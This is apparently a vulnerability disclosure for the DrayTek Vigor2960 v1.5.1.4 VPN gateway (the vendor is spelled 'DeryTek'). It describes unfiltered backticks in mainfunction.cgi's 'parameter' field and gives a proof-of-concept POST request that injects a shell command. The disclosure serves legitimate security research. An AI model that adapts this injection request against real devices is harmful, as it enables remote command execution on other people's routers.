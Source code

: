 # DeryTek Vigor2960 V1.5.1.4 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: DrayTek (https://www.draytek.com/)
- **Products**: VPN Gateway
- **Firmware download address**: https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Description

### 1.Product Information:

DeryTek Vigor2960 V1.5.1.4 VPN Gateway
![](img/1.jpg)

### 2. Vulnerability details

DeryTek Vigor2960 V1.5.1.4 was discovered to contain a command injection vulnerability in the mainfunction.cgi. This vulnerability allows attackers to execute arbitrary commands via the 'parameter' parameter.

![](img/21.jpg)
![](img/22.jpg)

We can see that the os will get `parameter` Not filtering the '\`' . So, If  we can control the `parameter`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 57
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: SESSION_ID_VIGOR=
Connection: close

action=commandTable&command=14&parameter=`touch test.txt`
```

![](img/31.jpg)

